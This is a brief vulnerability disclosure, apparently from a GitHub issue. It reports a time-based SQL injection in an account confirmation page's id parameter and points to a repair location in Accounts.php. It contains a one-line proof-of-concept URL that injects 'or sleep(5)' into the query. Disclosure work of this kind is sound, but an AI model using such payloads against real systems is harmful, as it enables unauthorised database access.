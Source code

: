 poc

```
http://stu/account/confirm.php?id=12345678901234567890123456789012'+or+sleep(5)%23
```
![image-20230121222006342](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301212220416.png)

final sql statement

![image-20230121023006473](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211436733.png)

Repair plan

framework/Accounts.php#userIdFromConfirmcode()

![image-20230121023335610](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211436528.png)

![image-20230121222343723](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301212223142.png)
